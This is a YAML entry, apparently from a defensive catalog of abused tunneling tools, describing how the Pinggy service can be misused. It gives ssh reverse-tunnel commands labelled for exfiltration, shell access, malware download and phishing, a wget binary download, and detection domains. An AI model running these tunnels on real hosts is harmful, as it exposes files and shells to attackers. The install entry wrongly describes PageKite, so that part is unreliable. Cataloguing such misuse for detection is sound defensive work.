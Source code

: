 ```yaml
---
Name: Pinggy
Description: Pinggy is a fast, versatile, and privacy-focused tunneling solution that enables users to expose local services, files, and ports over the internet. It can be leveraged for legitimate purposes like development, testing, and IoT access, but it may also be misused by threat actors to expose sensitive systems, services, or files for malicious purposes. This can be used with SSh or directly via the provided binary.
Author: Kamran Saifullah
Created: 2024-10-14
Commands:

  - Command: wget https://s3.ap-south-1.amazonaws.com/public.pinggy.binaries/v0.1.3/mac/univ/pinggy
    Description: PageKite provides binarues for multiple operating systems that are not required to be installed on the system as these are standalone binaries.
    Usecase: Downloading and execution of pagekite python program.
    Category: Install
    Privileges: User
    OperatingSystem: Windows, Mac, Linux

  - Command: ssh -p <PORT> -R0:localhost:8000 -L4300:localhost:4300 a.pinggy.io
    Description: Having a local web server running on the local machine, it is possible to expose the entire file system via pinggy tunnels. 
    Usecase: Exposing local file system over the internet for data exfiltrations. 
    Category: exfiltrate
    Privileges: User
    OperatingSystem: Windows, Mac, Linux

  - Command: ssh -p <SSH/RDP/ PORT> -R0:localhost:8000 -L4300:localhost:4300 a.pinggy.io
    Description: Exposing local shell services running on the local machine over the internet for shell access.
    Usecase: Hosting local services and binding them to pinggy tunnels for shell-access
    Category: shell-access
    Privileges: User
    OperatingSystem: Windows, Mac, Linux

  - Command: ssh -p <PORT> -R0:localhost:8000 -L4300:localhost:4300 a.pinggy.io
    Description: Exposing local serivces/applications running locally and binding them to pinggy domains to be accessed over the internet.
    Usecase: Hosting local services/applications running locally and exposing them over the internet.
    Category: access
    Privileges: User
    OperatingSystem: Windows, Mac, Linux

  - Command: ssh -p <PORT> -R0:localhost:8000 -L4300:localhost:4300 a.pinggy.io
    Description: Having local files in the directory and exposing them via hosting local web server and binding it to pinggy tunnels will enable threat actors to download malicious binaies onto the compromised host. 
    Usecase: Hosting malicious binaries locally and downloading these over to the compromised host.
    Category: download
    Privileges: User
    OperatingSystem: Windows, Mac, Linux

  - Command: ssh -p <PORT>> -R0:localhost:8000 -L4300:localhost:4300 a.pinggy.io
    Description: Hosting phishing website locally and exposing it over pinggy tunnels to compromise users.
    Usecase: Threat actors can host phishing sites running on the local server and can expose these over the pinggy tunnels for targeting users. 
    Category: phishing
    Privileges: User
    OperatingSystem: Windows, Mac, Linux

Full_Path:
  - Path: Downloaded version of pinggy, or directly via SSH.
Detection:
  - Domain: '*.pinggy.io'
  - Domain: '*.pinggy.link'
  - Domain: '*.*.amazonaws.com/public.pinggy.binaries/*'
Resources:
  - Link: https://pinggy.io/docs/
Acknowledgement:
  - Person: Kamran Saifullah
    Handle: '@deFr0ggy'
---
```

